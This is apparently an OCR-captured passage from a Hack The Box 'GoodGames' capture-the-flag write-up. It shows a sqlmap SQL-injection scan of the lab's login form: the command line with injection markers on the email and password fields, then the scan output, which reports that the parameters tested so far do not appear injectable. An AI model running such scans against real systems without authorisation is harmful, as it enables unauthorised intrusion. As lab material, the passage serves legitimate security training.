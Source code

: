 [13:05:10] [WARNING] (custom) POST parameter '#4*' does not seem to be injectable
[13:05:10] [CRITICAL] all tested parameters do not appear to be injectable. Try to increase values for '--level'/'--risk' options if you wish to perform more tests. If you suspect t
hat there is some kind of protection mechanism involved (e.g. WAF) maybe you could try to use option '--tamper' (e.g. '--tamper=space2comment') and/or switch '--random-agent'


```

💉 **login** 💉

```
[ 12:23PM ]  [ ops@redteam:~/Documents/PT/HTB-goodgames/data ]                                                                                                                      
 $ sqlmap -u "http://goodgames.htb/login" --data "email=*&password=*"                                                                                                               
        ___                                                                                                                                                                         
       __H__                                                                                                                                                                        
 ___ ___[']_____ ___ ___  {1.6.12#stable}                                                                                                                                           
|_ -| . [.]     | .'| . |                                                                                                                                                           
|___|_  [.]_|_|_|__,|  _|                                                                                                                                                           
      |_|V...       |_|   https://sqlmap.org                                                                                                                                        
                                                                                                                                                                                    
[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and fed
eral laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program                                                                   
                                                                                                                                                                                    
[*] starting @ 12:34:25 /2022-12-22/                                                                                                                                                
                                                                                                                                                                                    
custom injection marker ('*') found in POST body. Do you want to process it? [Y/n/q] Y                                                                                              
[12:34:28] [INFO] testing connection to the target URL                                                                                                                              
[12:34:29] [INFO] testing if the target URL content is stable                                                                                                                       
[12:34:29] [INFO] target URL content is stable                                                                                                                                      
[12:34:29] [INFO] testing if (custom) POST parameter '#1*' is dynamic                                                                                                               
[12:34:29] [WARNING] (custom) POST parameter '#1*' does not appear to be dynamic                                                                                                    
[12:34:30] [WARNING] heuristic (basic) test shows that (custom) POST parameter '#1*' might not be injectable                                                                        
[12:34:30] [INFO] testing for SQL injection on (custom) POST parameter '#1*'                                                                                                        
[12:34:30] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'                                                                                                        
[12:34:31] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'                                                                                                
[12:34:31] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'                                                                
[12:34:31] [INFO] testing 'PostgreSQL AND error-based - WHERE or HAVING clause'                                                                                                     
[12:34:31] [INFO] testing 'Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (IN)'                                                                               
[12:34:32] [INFO] testing 'Oracle AND error-based - WHERE or HAVING clause (XMLType)'                                                                                               
[12:34:32] [INFO] testing 'Generic inline queries'                                                                                                                                  
[12:34:32] [INFO] testing 'PostgreSQL > 8.1 stacked queries (comment)'                                                                                                              